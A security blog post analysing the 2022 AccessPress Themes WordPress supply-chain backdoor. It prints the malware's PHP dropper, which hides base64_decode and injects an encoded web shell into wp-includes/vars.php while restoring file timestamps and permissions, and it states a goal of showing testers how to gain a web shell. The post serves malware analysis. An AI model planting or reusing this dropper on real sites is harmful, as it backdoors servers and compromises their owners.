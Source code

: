 ```yaml
---
layout: post
title: "Reversing a WordPress Backdoor"
author: "dnstun0 (Jim Keeler)"
date: 2022-02-01 17:00:00 -0500
---
```

On January 18th, 2022, [Jetpack](https://jetpack.com/) [published](https://jetpack.com/2022/01/18/backdoor-found-in-themes-and-plugins-from-accesspress-themes/) their discovery of a supply chain attack affecting 93 WordPress themes and plugins. An organization called [AccessPress Themes](https://accesspressthemes.com/) had been breached in the first half of September 2021, and the extensions available for download on their site were injected with a backdoor.

There are published YARA rules and other [detection instructions](https://www.bleepingcomputer.com/news/security/over-90-wordpress-themes-plugins-backdoored-in-supply-chain-attack/) readily available for site owners to determine if they are vulnerable. But if you're a bug bounty hunter, penetration tester, or red teamer there's not much information on how to test for and exploit the backdoor. The rest of this article will cover how to reverse engineer the backdoor and use it to obtain a web shell on a vulnerable host.

## Dropper
First, we'll take a look at the dropper. The compromised extensions were modified to include a dropper function in the _initial.php_ file of the main plugin or theme directory. When run, it installs a web shell in _wp-includes/vars.php_.

```php
01  function makeInit() {
02     $b64 = 'ba' . 'se64' . '_dec' . 'ode';
03     $b = 'ZnVuY3Rpb2........TsKCg==';
04
05     $f = $_SERVER['DOCUMENT_ROOT'] . '/wp-includes/vars.php';
06     if(file_exists($f)) {
07         $fp = 0777 & @fileperms($f);
08         $ft = @filemtime($f);
09         $fc = @file_get_contents($f);
10         if(strpos($fc, 'wp_is_mobile_fix') === false) {
11             $fc = str_replace('function wp_is_mobile()',
12                $b64($b) . 'function wp_is_mobile()',
13                $fc);
14            @file_put_contents($f, $fc);
15            @touch($f, $ft);
16            @chmod($f, $fp);
17        }
18        return true;
19    }
20    return false;
21  }
```

Line two shows fragments of the `base64_decode` function name being concatenated together; probably to obfuscate its intent from any scanners. The actual web shell code is on line three, and is base64 encoded. The rest of the dropper checks for the existence of the _vars.php_ file, sets its permissions wide open, inserts the backdoor, and then puts the file timestamp and permissions back the way they were.
